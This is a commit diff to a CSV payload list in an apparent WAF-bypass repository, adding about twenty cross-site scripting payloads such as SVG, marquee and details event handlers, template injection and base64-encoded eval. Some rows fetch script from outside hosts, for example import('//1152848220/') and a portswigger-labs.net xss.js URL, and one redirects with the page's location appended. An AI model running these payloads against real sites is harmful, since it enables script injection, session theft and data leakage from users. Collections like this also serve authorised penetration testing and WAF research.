

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
new payloads

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-row 311: test | test | test
+row 311: https://waf-bypass.com/ | ?><img src=x onmouseleave=print()> | xss
+row 312: https://waf-bypass.com/ | ?><a/\test=?%26quot;x%26quot;?href=?%01javascript:/*%b1*/;location.assign(?//hackerone.com/stealthy?x=?+location)?>Click | xss
+row 313: https://waf-bypass.com/ | <style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;> | xss
+row 314: https://waf-bypass.com/ | <marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'> | xss
+row 315: https://waf-bypass.com/ | <svg><circle><set onbegin=prompt(1) attributename=fill> | xss
+row 316: https://waf-bypass.com/ | <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt | a() x> | xss
+row 317: https://waf-bypass.com/ | %3balert`1`%3b | xss
+row 318: https://waf-bypass.com/ | asd"`> onpointerenter=x=prompt,x`XSS` | xss
+row 319: https://waf-bypass.com/ | <x onauxclick=import('//1152848220/')>click | xss
+row 320: https://waf-bypass.com/ | <x onauxclick=a=alert | a(domain)>click -@niksthehacker | xss
+row 321: https://waf-bypass.com/ | <x onauxclick=import('//1152848220/')>click | xss
+row 322: https://waf-bypass.com/ | <x onauxclick=import('//xss/')>click | xss
+row 323: https://waf-bypass.com/ | \"<>onauxclick<>=(eval)(atob(`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`))>+<sss | xss
+row 324: https://waf-bypass.com/ | {{constructor.constructor(alert`1`)()}} | xss
+row 325: https://waf-bypass.com/ | javascript:new%20Function`al\ert\`1\``; | xss
+row 326: https://waf-bypass.com/ | <script>Object.prototype.BOOMR = 1; | xss
+row 327: https://waf-bypass.com/ | Object.prototype.url='https://portswigger-labs.net/xss/xss.js'</script> -https://portswigger.net/web-security/cross-site-scripting/cheat-sheet | xss
+row 328: https://waf-bypass.com/ | >%0D%0A%0D%0A<x '=foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'> | xss
+row 329: https://waf-bypass.com/ | >'><details/open/ontoggle=confirm('XSS')> | xss
+row 330: https://waf-bypass.com/ | 6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/ | xss
```
Also changed, not shown: 24 added rows elsewhere in this file.
